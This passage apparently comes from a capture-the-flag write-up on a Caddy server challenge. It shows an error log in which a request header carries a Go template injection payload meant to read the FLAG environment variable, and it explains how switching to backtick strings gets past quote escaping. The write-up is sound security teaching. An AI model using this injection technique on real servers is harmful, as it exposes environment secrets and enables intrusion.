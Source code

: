 Oops, looks like the server is not happy with that. Because we are running this locally, we can dig into the logs to see what happened:
```
{
  "level": "error",
  "ts": 1743396160.764403,
  "logger": "http.log.error",
  "msg": "template: /fetch/headers:1:3: executing \"/fetch/headers\" at <httpInclude \"/headers\">: error calling httpInclude: template: /headers:15: unexpected \"\\\\\" in operand",
  "request": {
    "remote_ip": "172.18.0.1",
    "remote_port": "43880",
    "client_ip": "172.18.0.1",
    "proto": "HTTP/1.1",
    "method": "GET",
    "host": "private.caddy.chal-kalmarc.tf",
    "uri": "/fetch/headers",
    "headers": {
      "User-Agent": [
        "Mozilla/5.0"
      ],
      "Accept": [
        "*/*"
      ],
      "Connection": [
        "close"
      ],
      "Exploit": [
        "{{env \"FLAG\"}}"
      ]
    },
    "tls": {
      "resumed": false,
      "version": 772,
      "cipher_suite": 4865,
      "proto": "",
      "server_name": "public.caddy.chal-kalmarc.tf"
    }
  },
  "duration": 0.000705071,
  "status": 500,
  "err_id": "z309yqm9f",
  "err_trace": "templates.(*Templates).executeTemplate (templates.go:460)"
}
```
We can see that in creating JSON, the server is automatically escaping the double quotes in the template, which is causing the template to fail.

It is at this point where the solution I came up with departed from the intended solution

The intended solution goes something like this: You realize that throughout the caddyfile, \` and " are used interchangably, and then you can go and see that go uses \` for raw string literals, and " for regular strings, and that both would work to wrap the word FLAG to get the flag out.
